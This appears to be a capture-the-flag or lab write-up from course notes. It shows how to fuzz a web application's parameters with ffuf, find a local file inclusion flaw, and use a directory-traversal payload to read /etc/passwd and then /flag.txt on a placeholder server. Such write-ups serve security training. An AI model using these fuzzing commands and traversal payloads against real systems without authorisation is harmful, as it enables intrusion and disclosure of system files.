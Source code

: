 # Automated Scanning

#### Fuzz the web application for exposed parameters, then try to exploit it with one of the LFI wordlists to read /flag.txt

**Step 1** - Fuzz parameters:

* Use the [burp-parameter-names.txt](https://github.com/kafkaesqu3/fuzzing/blob/master/parameters/burp-parameter-names.txt) wordlist with the following command:
  * {% code overflow="wrap" %}
    ```bash
    ffuf -w burp-parameter-names.txt:FUZZ -u 'http://SERVER_IP:SERVER_PORT/index.php?FUZZ' -fs 2309
    ```
    {% endcode %}

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

**Step 2** - Fuzz LFI payloads:

* Use the [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) wordlist:
  * {% code overflow="wrap" %}
    ```bash
    ffuf -w LFI-Jhaddix.txt:FUZZ -u 'http://SERVER_IP:SERVER_PORT/index.php?view=FUZZ' -fs 1935
    ```
    {% endcode %}

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 3** - Test one of the discovered payloads:

* Append the payload to the application URL:
  * {% code overflow="wrap" %}
    ```
    http://SERVER_IP:SERVER_PORT/index.php?view=../../../../../../../../../../../../../../../../../../../../../../etc/passwd
    ```
    {% endcode %}

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

**Step 4** - Get the flag:

* Now simply substitute **/etc/passwd** for **/flag.txt**
  * `../../../../../../../../../../../../../../../../../../../../../../flag.txt`

<figure><img src="../../../.gitbook/assets/image (298).png" alt=""><figcaption></figcaption></figure>

And flag found!
